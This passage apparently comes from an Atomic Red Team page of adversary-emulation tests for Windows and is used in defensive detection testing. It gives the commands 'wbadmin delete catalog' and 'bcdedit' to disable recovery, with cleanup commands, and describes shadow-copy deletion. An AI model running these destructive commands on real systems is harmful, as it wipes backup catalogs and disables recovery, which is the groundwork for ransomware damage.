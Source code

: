 **auto_generated_guid:** 263ba6cb-ea2b-41c9-9d4e-b652dadd002c






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wbadmin delete catalog -quiet
```






<br/>
<br/>

## Atomic Test #4 - Windows - Disable Windows Recovery Console Repair
Disables repair by the Windows Recovery Console on boot. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.
Upon execution, "The operation completed successfully." will be displayed in the powershell session.

**Supported Platforms:** Windows


**auto_generated_guid:** cf21060a-80b3-4238-a595-22525de4ab81






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```

#### Cleanup Commands:
```cmd
bcdedit.exe /set {default} bootstatuspolicy DisplayAllFailures >nul 2>&1
bcdedit.exe /set {default} recoveryenabled yes >nul 2>&1
```





<br/>
<br/>

## Atomic Test #5 - Windows - Delete Volume Shadow Copies via WMI with PowerShell
Deletes Windows Volume Shadow Copies with PowerShell code and Get-WMIObject.
This technique is used by numerous ransomware families such as Sodinokibi/REvil.
Executes Get-WMIObject. Shadow copies can only be created on Windows server or Windows 8, so upon execution
there may be no output displayed.

